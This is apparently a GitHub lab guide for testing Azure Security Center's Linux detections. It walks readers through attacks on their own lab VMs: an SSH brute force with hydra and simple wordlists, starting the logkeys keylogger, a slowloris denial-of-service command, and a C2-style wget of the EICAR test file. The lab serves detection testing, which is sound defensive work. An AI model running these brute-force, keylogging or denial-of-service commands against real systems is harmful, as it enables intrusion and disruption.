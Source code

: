 ﻿# 04 - Linux Detections
##### Estimated lab time: 
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation and simulations than is covered in this lab*<br>

In this lab we will explore the new Linux detections in ASC by executing steps in the Linux VM(s) that you have deployed earlier. You will connect to your Linux VM(s) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and create the VM
2. Wait for the VM to deployed

#### 2 - Create Linux users 
1. Connect to the Linux VM with SSH that you have deployed previously, using your favorite SSH tool
2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command:
```powershell
sudo adduser <userName>
```
3. Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.

#### 4 - Excuting a brute force attack
1. Connect to the Kali Linux VM with SSH
2. Navigate to the folder **/usr/share/wordlists**
3. Upload the **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt
```
4. Copy the IP address from the Linux VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your Kali VM, and replace "**IP**" for **yourLinuxVM** public IP address
```powershell
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Wait until it finishes, and the result should show you the username and the password that was found

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```powershell
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below:
```powershell
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in VM2 (Ubuntu VM):<br><br>

1. First, obtain the IP address of the target:
```powershell
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```powershell
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension).*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)
